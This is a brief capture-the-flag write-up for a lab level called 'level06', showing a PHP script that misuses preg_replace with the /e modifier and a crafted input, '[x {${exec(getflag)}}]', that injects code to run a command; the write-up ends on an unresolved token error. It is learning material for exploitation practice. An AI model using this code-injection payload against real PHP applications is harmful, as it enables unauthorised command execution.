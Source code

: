 # Level 06

```
./level06
./level06 file
# So it prints the content of the file
```

http://beautifytools.com/php-beautifier.php

```php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

The vulnerability seems to come from the /e https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier

= PHP code within your regular expression.

https://security.stackexchange.com/questions/151142/understanding-preg-replace-filtering-exploitation

So if the input match `/(\[x (.*)\])` , we execute the code.

We can exec system commands with `exec()`

So

```
echo "[x {${exec(getflag)}}]" > /tmp/res
```



we get an error with the token